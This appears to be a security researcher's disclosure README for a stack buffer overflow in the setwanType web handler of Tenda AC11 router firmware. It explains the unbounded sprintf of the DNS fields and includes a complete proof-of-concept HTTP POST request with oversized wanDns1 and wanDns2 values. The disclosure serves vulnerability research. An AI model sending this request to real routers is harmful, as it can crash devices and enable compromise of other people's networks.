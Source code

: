 # Tenda Router AC11 Vulnerability
The Vulnerability is in `/goform/setwanType` page which influence the lastest version routerOS(RTOS, This is system different from linux system)[AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html)

## Vulnerability description
In the page `/gofrom/setwanType` have one stack buffer overflow vulnerability.

1. It isn't limit our input when we input `wanDns1` in `v12` and `wanDns2` in `v13`.
2. Then `v12` and `v13` will copy to a stack value `v45` by using `sprintf_1(v45, "%s %s", v12, v13);` .%s couldn't limit copy length ,so wo can make stack buffer overflow in `v45`
![](./1.png)

## poc 

```
POST /goform/setwanType HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wanDns1=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&wanDns2=wanDns2=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true&wanType=static
```
## Acknowledgment 

Credit to [@peanuts](https://github.com/peanuts62), [@leonW7](https://github.com/leonW7), [@cpegg](https://github.com/cpeggg),[@ainevsia](https://github.com/ainevsia) [@Lnkvct](https://github.com/Lnkvct) and [@Yu3H0](https://github.com/Yu3H0/) from Shanghai Jiao Tong University.
